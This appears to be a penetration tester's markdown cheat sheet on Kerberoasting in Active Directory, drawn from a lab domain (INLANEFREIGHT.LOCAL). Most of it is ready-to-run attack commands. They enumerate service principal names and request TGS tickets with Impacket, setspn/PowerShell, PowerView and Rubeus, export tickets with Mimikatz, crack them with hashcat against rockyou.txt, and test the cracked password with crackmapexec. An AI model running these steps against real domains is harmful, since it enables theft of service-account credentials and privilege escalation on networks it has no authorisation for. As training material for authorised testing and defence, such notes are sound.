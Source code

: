 ## Overview
Lateral movement/ PrivEsc technique used in AD.
Targets [Service Principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). 
	Unique Identifiers that Kerberos uses to map a service instance to a service account. 
	Domain accounts of used to overcome network limitations. 
	Any account can request any Kerberos ticket.
Need a password or NTLM hash, shell in a domain user or a SYSTEM level access on a domain joined host.
Service accounts often added to privileged groups such as domain admins. 
Service accounts often give week/ reused passwords to simplify administration. 

### How the Attack Works 
#### Where
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.
#### With 
- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.
### Encryption types
`$krb5tgs$23$*` = RC4 Hashcat mode 13100
`$krb5tgs$17$*` = AES128 Hashcat mode 19700
`$krb5tgs$18$*` = AES256

t is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: `Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options`, then double-clicking on `Network security: Configure encryption types allowed for Kerberos` and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for `RC4_HMAC_MD5` would allow for the above downgrade example to occur in 2019.

## From Linux
#### GetUsersSPNs
##### Getting a Ticket
List Service Accounts
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Requesting all TGS tickets
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
Requesting a Single Ticket
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
##### Saving a Ticket 
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
##### Crack the Ticket 
```shell
 hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```
##### Test the Authentication 
```shell
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
##### Can list what groups the user is in with 
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/<user>
```
Group is after the CN= 
## From Windows 
### Semi Manual Methods
Using [setspn](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)>)binary
#### Enumerate SPNs 
```cmd
setspn.exe -Q */*
```
#### Target a Single User 
```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

**Notes**
	- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
	- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
	- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
	- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
	- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
#### Retrieving all tickets
```powershell
 setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

```
#### Extracting Tickets with Mimikatz
```cmd
base64 /out:true

kerberos::list /export 
```
Without the base64 output, you can transfer the file across any other way.
#### Prepare for cracking 
```shell
echo "<base64 blob>" |  tr -d \\n 
```
#### Place the output into a File 
```shell
 cat encoded_file | base64 -d > sqldev.kirbi
```
#### Extract the Kerberos Ticket
```shell
python2.7 kirbi2john.py sqldev.kirbi
```
#### Modify the file for Hashcat 
```shell
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
#### Crack the hash 
```shell
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated Method 
#### PowerView 
```powershell
Import-Module .\PowerView.ps1
 
Get-DomainUser * -spn | select samaccountname
```
##### Target a specific user 
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
##### Export All tickets to a CSV File 
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
##### Crack the hash 
```shell
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

#### Rubeus
##### Gather stats
```powershell
.\Rubeus.exe kerberoast /stats
```
##### Request Tickets 
`Admincount=1` Likely high value targets
`nowrap` means it can easily be copied.
```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
Or
```powershell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

#### Request a RC4 ticket if another form of encryption is used. 
use the `/tgtdeleg` flag
This will not work against Server 2019 + .
